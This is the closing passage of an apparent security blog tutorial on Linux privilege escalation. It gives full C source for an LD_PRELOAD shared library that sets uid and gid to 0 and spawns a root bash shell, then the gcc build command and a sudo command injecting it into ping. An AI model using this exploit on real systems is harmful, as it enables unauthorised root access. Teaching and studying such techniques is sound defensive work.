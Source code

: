 
`LD_PRELOAD` specifies what shared libraries are used in execution 

Let's create a file called lib.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```

Compile it as a shared library as well - remember about the name.
```sh
$ gcc -fPIC -shared -nostartfiles -o lib.o lib.c
```

And now it's time to run that ping command.
```sh
$ sudo LD_PRELOAD=/home/saad/lib.o /usr/bin/ping 127.0.0.1

#
```

We have root as well.

## Conclusion

That's it. I hope you've learned something new

How do you like this new blog by the way? Do you have some suggestions for UI?

Anyways, thanks for reading - visit [main blog]("https://wizarddos.github.io/blog") as well and see you next time